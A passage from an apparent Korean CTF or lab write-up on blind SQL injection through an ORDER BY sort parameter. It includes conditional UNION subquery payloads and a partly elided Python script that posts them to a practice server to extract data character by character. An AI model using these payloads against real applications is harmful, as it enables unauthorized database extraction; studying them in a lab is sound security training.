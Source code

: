 이번에는 검색 결과가 반환되지 않는다. 그 이유는 페이로드의 조건식이 거짓이기 때문에 `select 1 union select 2`의 값으로 변환되기 때문이다. 이는 하나의 값이 아닌 2개 행으로 이루어진 테이블 형태이므로, `ORDER BY` 절 뒤에 결합되면 오류가 발생한다. 따라서 정상적으로 쿼리 결과가 반환될 수 없다.

> `CASE`를 사용하지 않고 다음과 같은 형태를 사용하는 것도 가능하다.
>
> ```sql
> (SELECT 1 UNION SELECT 2 WHERE 1 = 1) -- 반환 결과: 1열 2행 테이블(1행: 1, 2행: 2)
> (SELECT 1 UNION SELECT 2 WHERE 1 = 2) -- 반환 결과: 1
> ```
>
> 이 구문은 `CASE`를 사용했을 때와 비교하여 조건식의 진릿값에 따른 결과 반환이 반대로 동작하므로 사용 시 조건 평가 방식에 유의할 필요가 있다.

이로써 조건식의 진릿값에 따른 애플리케이션의 동작 차이를 확인하였다. 이번에는 데이터가 출력되는 위치를 확인할 수 없으므로, 바로 Blind SQL Injection을 사용하기로 결정하였다. 7주차에 사용했던 자동화 스크립트를 소폭 수정하여 실행해 보았다.

```python
# blind_sqli.py

import requests

url = "http://ctf2.segfaulthub.com:7777/sqli_8/notice_list.php"

def is_true(row, idx, asc):
  if sql.strip().lower() == "select database()" and row > 0:
    return False
  payload = f"(select 1 union select 2 where ascii(substr(({sql} limit {row}, 1), {idx},
              1)) > {asc})"
  cookie = {"PHPSESSID": "h1u9p1k1pg8sr0ii3gdac8m3k5"}
  data = {"option_val": "username", "board_result": "any", "board_search":
          "%F0%9F%94%8D", "date_from": "", "date_to": "", "sort": payload}
  return "any" not in requests.post(url, cookies = cookie, data = data).text

def find_char(row, idx, low = 32, high = 126):
  ...

def extract_data():
  ...

while True:
  sql = input("Enter the SQL query to extract data.(Press 'q' to quit.)\nSQL > ")
  if sql == "q":
    break
  print(f"[+] Data extracted: {", ".join(extract_data())}\n")
```

스크립트 실행 결과는 다음과 같다.
